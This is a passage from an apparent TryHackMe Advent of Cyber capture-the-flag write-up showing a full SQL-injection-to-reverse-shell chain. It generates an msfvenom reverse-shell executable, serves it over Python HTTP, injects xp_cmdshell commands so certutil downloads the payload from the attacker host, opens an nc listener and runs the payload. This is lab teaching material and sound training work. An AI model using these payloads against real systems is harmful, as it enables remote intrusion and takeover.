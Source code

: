 ```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.165.223 LPORT=4444 -f exe -o reverse.exe
```

![Gift Site|600](images/thm-aoc-2023-day-9-12/gift-8.png)

Once the payload is generated we need to host the payload on a web server. The target will download the payload from the server. This can be done using Python.

```bash
python3 -m http.server 8000
```

Now we can use the `xp_cmdshell` stored procedure to execute a system command on the vulnerable system to download the payload.

```
http://10.10.179.128/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.165.223:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```

![Gift Site|500](images/thm-aoc-2023-day-9-12/gift-9.png)

![Gift Site|640](images/thm-aoc-2023-day-9-12/gift-10.png)

Once the executable is downloaded we need to set up a listener which is going to be used by the payload to connect back to us.

```bash
nc -nvlp 4444
```

Finally, using the stored procedure we can execute the payload. If done correctly this should give us access to the remote system.

```
http://10.10.179.128/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```
